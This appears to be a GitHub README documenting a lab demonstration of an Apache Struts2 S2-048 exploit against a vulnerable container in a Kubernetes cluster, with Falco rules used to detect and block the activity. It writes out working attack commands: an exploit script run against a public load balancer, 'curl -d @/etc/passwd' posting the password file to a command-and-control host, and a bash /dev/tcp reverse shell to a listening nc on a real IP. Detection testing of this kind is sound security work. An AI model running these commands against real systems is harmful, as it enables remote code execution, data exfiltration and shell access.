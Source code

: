 # struts_poc  
![image](https://user-images.githubusercontent.com/4404271/153259381-52907b2b-ab78-4699-bde6-0cf7b35393a8.png)

## There are sometimes holes.
## This is nothing more than good old Kali struts poc rev shell in a k8s cluster. Simple.  
## Scroll down for a tldr GIF :-)  

![image](https://user-images.githubusercontent.com/4404271/155650062-66a0d0e0-5091-4dd0-9eb9-cb125d21dddb.png)



git clone https://github.com/hook-s3c/apache-struts2-PoC  
cd apache-struts2-PoC/  
docker build -t struts .  
docker run -it --rm -d -p 8080:8080 struts:latest  
docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest  
#public login to us-west-2 not supported by aws  
aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws  
docker push public.ecr.aws/v9f6i2g3/stuff:latest  
kubectl apply -f strust-deploy-and-service.yaml  
ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC  
  

kubectl get service -n struts  
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE  
`struts   LoadBalancer   10.100.144.108   a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m` 

First, on the cc server, start some simple web server such as: python3 webserver.py  

OK now we can attack, from the attacker "box" (actually just a tmux on my ubuntu box):  

`cd ~/apache-struts2-PoC`    
`python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'env'`  

...and we dump the environment to the CC server, not good!  

KUBERNETES_SERVICE_PORT_HTTPS=443  
KUBERNETES_SERVICE_PORT=443  
STRUTS_PORT_8080_TCP_PORT=8080  
STRUTS_SERVICE_PORT=8080  
HOSTNAME=struts-7d8c95bbbd-9p9pp  
JAVA_HOME=/usr/local/openjdk-8  
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42 47309207D818FFD8DCD3F83F1931D684307A10A5  
etc..  
  
OK that was fun, what else can we do? Curl?  

`python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'curl jumpbox.brett1.com:8080\hi_from_inside_the_container_in_our_cluster`  

I wondered if I could modify an existing Falco rule to warn on curl GET? Yes! We can get granular enough to tell the difference between a curl POST and a curl GET that is awesome!  
So, this GET shows up on our little CC web server, and logs in Sysdig as a warning about curl, naughty, but I'll allow it, this time!  

OK now with our confidence sky high, through the roof, let's post the whole dang passwd file to our CC server here we go:  

`python exploitS2-048-cmd.py a31daafb811f24dc6b521914a12433e6-1984373561.us-west-2.elb.amazonaws.com:8080 'curl -d @/etc/passwd jumpbox.brett1.com:8080`  

And believe me, that works! We see the passwd file appearing in our CC server.  
But we want to block it, easy enough, we simply enable a policy with a Falco rule to kill the container iif there is a curl POST  
And it works! The container is killed so quickly, the passwd never shows up on the CC server (I know, I tested it probably a hundred times)  

So now to put the cherry on top, let's do a reverse shell:  
On our CC server let's just listen like so: nc -l 4242  

And then from our attack box let's `python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'bash -i >& /dev/tcp/52.206.9.54/4242 0>&1'`

And let's watch the fun unfold:  

![struts_rs](https://user-images.githubusercontent.com/4404271/153033823-b0d10a6b-4faa-4f0e-b8d1-8dde69cf1562.gif)

![image](https://user-images.githubusercontent.com/4404271/153435925-60ccd750-ad11-4f80-ad72-e27f01d75e09.png)

![image](https://user-images.githubusercontent.com/4404271/153497163-7b424dc2-3652-4798-9200-1606fd54876f.png)

![image](https://user-images.githubusercontent.com/4404271/153490296-a07fb685-8b04-48bb-8af0-7bff11cc2c21.png)

